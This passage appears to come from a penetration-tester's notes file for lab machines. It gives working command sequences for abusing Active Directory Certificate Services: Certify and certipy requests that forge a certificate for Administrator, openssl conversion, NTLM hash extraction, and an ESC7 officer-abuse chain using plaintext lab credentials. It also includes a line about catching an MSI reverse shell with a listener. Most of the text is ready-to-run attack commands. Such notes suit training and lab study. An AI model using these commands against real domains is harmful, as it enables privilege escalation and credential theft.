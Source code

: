 ```
- run msi shell as admin, catch shell with listener


#### AD CS
- upload Certify.exe
```
./certify.exe find /vulnerable
```
- Template Name: UserAuthentication
- msPKI-Certificate-Name-Flag: ENROLLE SUPPLIES SUBJECT
- Permissions: Enrollment Rights includes Domain Users
	- must be logged in as domain user
```
./certify.exe request /ca:dc.sequel.htb\sequel-DC-CA /template:UserAuthentication /altname:Administrator
```
- should return RSA Private Key and Certificate
	- copy/paste into file on kali named "cert.pem"
- on kali run:
```
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```
- password is blank
- then run:
```
certipy auth -pfx cert.pfx -dc-ip 10.129.121.20 -username Administrator -domain sequel.htb
```
- should return administrator ntlm hash
	- if not, run:
		- `ntpdate 10.129.121.20`
			- may need to run multiple times, until "no skew", but might work with just "no leap"; keep trying and running certipy command right after

Can also run ADCS remotely with certipy
```
certipy find -dc-ip 10.129.42.194 -ns 10.129.42.194 -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -vulnerable -stdout
```
- bottom of output will list vulnerabilities like ESC7
##### ESC7:
```
certipy ca -ca manager-DC01-CA -add-officer raven -username raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123'
```
- adds user Raven to group that can manage CA permissions
```
certipy find -dc-ip 10.129.42.194 -ns 10.129.42.194 -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -vulnerable -stdout
```
- same command as above, run to confirm user was added to group successfully (look at ManageCertificates row for user added)
```
certipy req -ca manager-DC01-CA -target dc01.manager.htb -template SubCA -upn administrator@manager.htb -username raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123'
```
- command is supposed to fail, but saves private key (hit `y`)
```
certipy ca -ca manager-DC01-CA -issue-request 13 -username raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123'
```
- should successfully issue certificate
	- if it fails go back to previous command to add Raven to group (as this resets)
```
certipy req -ca manager-DC01-CA -target dc01.manager.htb -retrieve 13 -username raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123'
```
```